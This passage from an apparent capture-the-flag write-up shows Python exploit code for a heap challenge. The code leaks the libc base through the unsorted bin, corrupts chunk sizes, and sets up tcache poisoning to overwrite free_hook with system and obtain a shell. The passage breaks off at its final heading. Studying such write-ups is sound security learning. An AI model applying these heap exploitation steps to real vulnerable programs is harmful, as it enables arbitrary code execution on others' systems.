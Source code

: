 ```python
# use first chunk again to leak the libc at fd of unsorted bin
create(0xf0, b'A' * 0x100)
show()

s.recvuntil(b'A' * 0x100)

unsorted_bin_leak = int.from_bytes(s.recvline().strip(), byteorder = 'little', signed = False)

libc_base = unsorted_bin_leak - unsorted_bin
system = libc_base + system_offset
free_hook = libc_base + free_hook_offset

# delete and reuse again to re-edit the chunk size, because we crash it with 'A' in previous step, to not cause segment fault
delete()
payload = b'A' * 0xf0 + p64(0) + p64(0x621)
create(0xf0, payload)
```

## Overwrite free_hook and get shell

The next step is overwrite free_hook with address of system and get a shell. The list of chunks on the cache will be stored as a singly linked list. I'll overwrite it to make tcache allocate memory at the free_hook.

To do it, I need to free aleast 2 chunk with the same size to tcache, I will do the same way when leaking libc.

Just read the code, i explain really careful.

```python
# Part 2: overwrite free_hook and get shell
create(0x40, b'\n') #create and delete the first 0x50 size chunk
delete()
create(0x50, b'\n') #create a chunk for latter use (I will call this s_chunk)
delete()
create(0x20, b'\n') #create 2 chunk 0x30 and 0x20 with the total size is 0x50
delete()
create(0x10, b'\n')
delete()
create(0x30, b'\n')  # not necessary but just for fun LOL
payload = b'A' * 0x50 + p64(0) + p64(0x51) + b'\n'
create(0x50, payload) #comback to s_chunk and edit the size of third chunk
delete()
create(0x20, b'\n') #create chunk 0x30
delete() #after this, we free the second 0x50 size chunk
```

So we have 2 0x50 size chunk freed in tcache

## Last step, Overwrite the free_hook and get a shell
